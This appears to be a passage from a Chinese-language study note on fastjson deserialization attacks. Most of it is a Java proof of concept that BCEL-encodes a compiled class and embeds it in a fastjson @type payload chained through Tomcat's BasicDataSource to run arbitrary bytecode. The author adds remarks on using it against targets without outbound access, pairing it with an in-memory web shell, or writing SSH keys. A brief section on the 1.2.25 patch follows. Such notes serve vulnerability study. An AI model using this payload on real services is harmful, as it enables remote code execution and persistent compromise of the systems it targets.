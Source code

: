 

test POC：

```java
public class BCEL_getConnect {
    public static void main(String[] args) throws Exception {
        //{
        //    {
        //        "x":{
        //                "@type": "org.apache.tomcat.dbcp.dbcp.BasicDataSource",
        //                "driverClassLoader": {
        //                    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
        //                },
        //                "driverClassName": "$$BCEL$$$l$8b$I$A$..."
        //        }
        //    }: "x"
        //}
        byte[] code = Files.readAllBytes(Paths.get("E:\\CODE_COLLECT\\Idea_java_ProTest\\my-yso\\target\\classes\\Runtime_static.class"));
        String bcel = "\""+"$$BCEL$$"+ Utility.encode(code,true)+"\"";
        String poc = "{\n" +
                    "    {\n" +
                    "        \"aaa\": {\n" +
                    "                \"@type\": \"org.apache.tomcat.dbcp.dbcp.BasicDataSource\",\n" +
                    "                \"driverClassLoader\": {\n" +
                    "                    \"@type\": \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n" +
                    "                },\n" +
                    "                \"driverClassName\": "+ bcel+ "\n" +
                    "        }\n" +
                    "    }: \"bbb\"\n" +
                    "}";
        System.out.println(poc);
        JSON.parse(poc);
    }
}
```

能打目标不出网，直接执行字节码，搭配内存马进行回显，或者写ssh？

但是需要目标有Tomcat依赖



# fastjson 1.2.25-1.2.47

## 修复

1.2.24最终调用到的DefaultJSONParser.parseObject，以TypeUtils.loadClass加载类

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241007161107312.png)
